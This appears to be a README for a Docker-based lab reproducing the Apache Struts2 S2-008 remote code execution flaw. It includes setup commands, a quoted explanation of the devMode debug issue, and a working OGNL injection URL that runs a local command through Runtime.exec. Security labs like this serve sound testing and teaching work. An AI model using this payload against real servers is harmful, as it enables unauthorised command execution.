 # S2-008 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.1

Details: http://struts.apache.org/docs/s2-008.html

## Setup

```
docker compose build
docker compose up -d
```

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

> S2-008 involves multiple vulnerabilities. Cookie interceptor configuration problem can cause OGNL expressions execute, but most web containers (such as Tomcat) have character restrictions for cookie names, some key characters cannot be used. Another point is that if the struts2 turn on `devMode` mode, there are multiple debug interfaces that can directly view object information or execute commands. As Kxlzx(author) mentions, this situation is almost impossible in the real environment. So it becomes It's very useless, but I don't think it's absolute. It's possible to hack a struts2 application that turn on `debug` mode on the server as a backdoor.

For example, adding the parameter `?debug=command&expression=<OGNL EXP>` in `devMode` mode, OGNL expression will be executed directly and you can execute the command:

```
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```
